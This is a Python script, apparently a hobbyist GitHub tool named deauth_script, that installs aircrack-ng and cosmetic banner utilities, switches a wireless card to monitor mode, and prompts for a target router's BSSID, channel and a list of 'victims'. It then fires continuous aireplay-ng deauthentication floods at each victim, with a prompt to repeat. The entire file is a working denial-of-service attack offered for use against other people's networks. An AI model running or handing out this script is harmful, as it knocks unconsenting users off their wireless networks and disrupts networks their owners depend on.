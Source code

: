 # deauth_script

import os
import time

os.system("clear")

os.system("git clone https://github.com/busyloop/lolcat")
os.system("cd lolcat/bin && gem install lolcat")
os.system("cd /usr/share")
os.system("git clone https://github.com/xero/figlet-fonts")
os.system("cd")
os.system("sudo apt install aircrack-ng")
os.system("clear")
os.system("figlet -f Poison Be Humble | lolcat ")

time.sleep(1)

os.system("airmon-ng")
interface = input(" \033[31;3m select the interface you want to set as monitor mode: \033[0m ")
os.system("airmon-ng start {}" .format(interface))
mon = 'mon'
monitor = interface + mon
print(" \033[33;3m using",monitor,"... \033[0m ")
time.sleep(2)
os.system("clear")
os.system("airodump-ng {}" .format(monitor))

router_bssid = input(" \033[31;3m Enter the BSSID of the router you want to fuck up: \033[0m ")
router_channel = int(input(" \033[31;3m Enter the Channel of the router you want to fuck up: \033[0m "))

os.system("airodump-ng {} --bssid {} --channel {}" .format(monitor,router_bssid,router_channel))

victims = int(input(" \033[31;3m Select the number of victims: \033[0m "))
station_list = []
control = 0
while control != victims:
    control += 1
    station = input(" \033[31;3m STATION: \033[0m ")
    station_list.append(station)
    print(station_list)
q = 'y'
while q == 'y':
    print(" \033[33;3m Wait a sec there champ!...")
    time.sleep(2)
    print("final check... | lolcat")
    time.sleep(1)
    print("interface.. \033[0m ",monitor)
    time.sleep(1)
    for i in range(0,len(station_list)):
        os.system("gnome-terminal -e 'aireplay-ng --deauth 0 -c {} -a {} {}'" .format(station_list[i],router_bssid,monitor))
    q = input("\033[34;3m You wanna Re-Fuck it (y/n) ? \033[0m ")
